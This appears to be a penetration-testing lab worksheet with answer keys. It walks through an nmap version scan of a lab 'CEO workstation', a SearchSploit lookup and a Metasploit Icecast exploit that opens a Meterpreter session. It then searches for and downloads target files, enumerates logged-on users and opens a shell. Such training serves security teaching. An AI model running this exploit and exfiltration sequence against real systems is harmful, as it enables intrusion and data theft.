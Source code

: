 You've been provided full access to the network and are getting ping responses from the CEO’s workstation.


Perform a service and version scan using Nmap to determine which services are up and running:


Run the Nmap command that performs a service and version scan against the target.

Answer: nmap -sV 192.168.0.6 





From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:


Run the SearchSploit commands to show available Icecast exploits.

Answer: searchsploit icecast





Now that we know which exploits are available to us, let's start Metasploit:


Run the command that starts Metasploit:

Answer: msfconsole





Search for the Icecast module and load it for use.


Run the command to search for the Icecast module:

Answer: search icecast



Run the command to use the Icecast module:
Note: Instead of copying the entire path to the module, you can use the number in front of it.

Answer: use 





Set the RHOST to the target machine.


Run the command that sets the RHOST:

Answer: Set RHOST 192.168.0.6





Run the Icecast exploit.


Run the command that runs the Icecast exploit.

Answer: run



You should now have a Meterpreter session open.



Run the command that performs a search for the secretfile.txt on the target.

Answer: search -f *secretfile.txt -r




Run the command to performs a search for the recipe.txt on the target:

Answer: search -f *recipe.txt -r



Bonus: Run the command that exfiltrates the recipe*.txt file:

Answer: download "c:\Users\IEUser\Documents\Drinks.recipe.txt" "output file name"



You can also use Meterpreter's local exploit suggester to find possible exploits.


Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.




Bonus
A. Run a Meterpreter post script that enumerates all logged on users.

Answer: run post/windows/gather/enum_logged_on_users 

B. Open a Meterpreter shell.

Answer: shell

C. Run the command that displays the target's computer system information:

Answer: sysinfo

